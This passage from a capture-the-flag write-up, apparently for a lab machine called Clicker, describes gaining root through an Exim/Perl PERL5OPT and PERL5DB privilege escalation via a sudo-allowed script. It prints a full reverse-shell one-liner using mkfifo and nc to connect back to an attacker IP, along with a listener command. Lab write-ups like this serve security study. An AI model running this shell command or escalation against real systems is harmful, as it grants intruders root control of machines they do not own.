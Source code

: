  I looked for a way to exploit this and came across the vulnerability "**Exim < 4.86.2 - Local Privilege Escalation**”[exploitdb-link](https://www.exploit-db.com/exploits/39549).And this matches because a perl binary is run in the same script (`/usr/bin/xmp_pp`) So lets try to exploit.

After searching a lot because I didn’t understand how to exploit the vulnerability I came across the **metasploit script** that executes this command (https://packetstormsecurity.com/files/136694/Exim-perl_startup-Privilege-Escalation.html) `PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&` so lets try it with modification:

`sudo PERL5OPT=-d PERL5DB='exec "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.5 4444 >/tmp/f"' /opt/monitor.sh`

Run your listener : `pwncat-cs :4444` 

AND PWNED !!!! 👽

![pwned](/assets/Clicker/pwned.png)

**Credit for user :** 

CRLF : [https://www.thehacker.recipes/web/inputs/crlf-injection](https://www.thehacker.recipes/web/inputs/crlf-injection)

**Credit for root :** 

exploit exim : [https://packetstormsecurity.com/files/136694/Exim-perl_startup-Privilege-Escalation.html](https://packetstormsecurity.com/files/136694/Exim-perl_startup-Privilege-Escalation.html)
